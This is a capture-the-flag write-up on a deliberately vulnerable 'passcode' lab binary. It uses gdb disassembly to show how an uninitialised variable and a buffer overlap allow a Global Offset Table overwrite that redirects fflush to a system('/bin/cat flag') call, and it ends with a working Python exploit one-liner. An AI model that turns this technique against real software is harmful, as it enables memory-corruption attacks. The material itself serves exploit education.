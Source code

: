 ```assembly
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave  
   0x080485f0 <+140>:   ret    
   0x080485f1 <+141>:   mov    DWORD PTR [esp],0x80487bd
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
End of assembler dump.
```
We can see that `passcode1` is located in `ebp - 0x10`, and `passcode2` in `ebp - 0xc`.
So the memory will look something like that:

![image](https://user-images.githubusercontent.com/56035342/209885145-5571d145-f628-4b3a-a802-a3d4ed536e01.png)

so we can change the value of passcode1 even inside the `welcome` function!
now lets try to understand what the `login` function does.
First of all, the program will ask the user for input, but it will write it to the value of passcode1.
And right after that we have a `fflush` library call.
Lets use gdb to see the address of `fflush`:
```assembly
(gdb) disassemble fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:     push   0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
```
We found the address 0x804a004, which is an address in the Global Offset Table, which calls the libc fflush function.
If we can set the value of `passcode1` to `0x804a004`, we can  change the address in the Global Offset Table, to run our own code!
In order to change the value of `passcode1` , we need to do:
`(python -c "print('A' * 96 + '\x04\xa0\x04\x08')") | ./passcode`

Then, we will reach the scanf of `passcode1`, which will write an input from the user into 0x804a004.
So now we can control where the program will jump to!
In order to get the flag, the best thing to do is to jump to the end , where the `system("/bin/cat flag");` starts.
it starts right in this line:
`0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af`
but because scanf takes input in decimal, we need to change 0x080485e3 to decimal, which is 134514147.
So the final solution will be:
`(python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')") | ./passcode`
